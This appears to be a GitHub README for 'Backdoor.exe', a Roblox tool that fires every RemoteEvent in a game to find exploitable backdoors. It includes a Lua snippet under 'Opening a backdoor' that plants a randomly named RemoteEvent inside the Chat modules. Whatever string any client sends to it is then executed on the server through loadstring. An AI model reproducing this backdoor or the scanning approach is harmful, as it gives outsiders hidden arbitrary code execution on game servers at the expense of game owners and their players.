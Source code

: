 # Backdoor.exe
The best backdoor scanner there is. Our [Discord Server](https://discord.com/invite/6HndYgC).

## Credits
* iK4oS
* Angus
* Bubba
* eeee
* Redcarred2

## Information
Backdoor.exe is script that scans for open backdoors in games in [Roblox](https://roblox.com/ "Roblox"). It does this by itterating through every Remote Event and firing a script of of them that creates an object. The scripts checks if the object is created, sees what Remote Event caused that to be created and stores it.

### Opening a backdoor
Get access to a game in Roblox Studio, create a script and paste the few lines of code below in the script.
Make sure to enable `Loadstring` in `ServerScriptServices`.
```lua
local Remote = Instance.new("RemoteEvent", game.Chat:WaitForChild("ClientChatModules").MessageCreatorModules)
Remote.Name = tostring(math.random(100000000,1000000000))
Remote.OnServerEvent:connect(function(player, execute)
	loadstring(execute)()
end)
```

